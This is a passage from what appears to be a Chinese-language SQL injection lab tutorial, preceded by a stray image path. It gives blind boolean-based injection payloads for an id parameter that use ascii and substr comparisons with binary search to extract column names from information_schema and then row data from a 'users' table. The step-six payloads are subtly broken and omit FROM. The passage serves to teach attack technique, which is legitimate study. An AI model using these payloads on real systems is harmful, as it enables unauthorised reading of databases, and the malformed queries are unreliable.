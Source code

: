 ?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)))&lt;80--+返回有数据

 采用二分法以此类推得到唯一的值
通过这个方法判断出整个字段名


> 
<h3>4.6、第六步：猜数据</h3>
?id=1' and (ascii(substr(( select  id users limit 0,1),1,1)))&lt;80--+  页面返回有数据


?id=1' and (ascii(substr(( select  id users limit 0,1),1,1)))&gt;30--+页面返回有数据

 采用二分法以此类推得到唯一的值
通过这个方法判断出整个数据

